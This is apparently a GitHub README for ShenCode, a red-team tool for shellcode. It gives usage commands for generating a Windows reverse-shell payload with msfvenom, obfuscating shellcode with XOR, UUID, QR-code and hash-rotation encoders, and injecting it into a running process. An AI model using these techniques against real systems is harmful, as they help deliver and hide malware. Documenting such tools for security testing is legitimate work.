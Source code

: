 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![](shencode-042.png)

## Features

### Version 0.4.3

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **QR-Code**      | `encode --filename shell.raw --outputfile shell.enc --qrcode`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

| **Command** | **Subcommand** | **Short** | **Description**                                                                       | Requires  |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --------- |
| create      |                |           | create a shellcode using msfvenom                                                     |           |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |           |
| encode      |                |           | Shellcode encoding                                                                    |           |
|             | --filename     | -f        | raw input file with shellcode                                                         |           |
|             | --outputfile   | -o        | raw output file                                                                       |           |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 | -f -o -rk |
|             | --key          | -rk       | ROL key for encoding                                                                  |           |
|             | --qrcode       | -q        | Create a QR Code from Shellcode                                                       | -f        |
|             | --xor          | -x        | use additional XOR encoding                                                           | -f -o -xk |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |           |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           | -f        |
| extract     |                |           |                                                                                       |           |
|             | --filename     | -f        | binary input file                                                                     |           |
|             | --outputfile   | -o        | name of the outputfile                                                                |           |
|             | --first-byte   | -fb       | first byte to extract                                                                 | -f -o     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |           |
| inject      |                |           | inject shellcode                                                                      |           |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |           |
|             | --processname  | -p        | process name to inject                                                                |           |
|             | --startprocess | -s        | if set, process will be started                                                       |           |
| output      |                |           | create formatted output by filename                                                   |           |
|             | --filename     | -f        | raw input file with shellcode                                                         |           |
|             | --lines        | -l        | adding line offsets                                                                   | -f -s     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |           |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |           |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |           |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
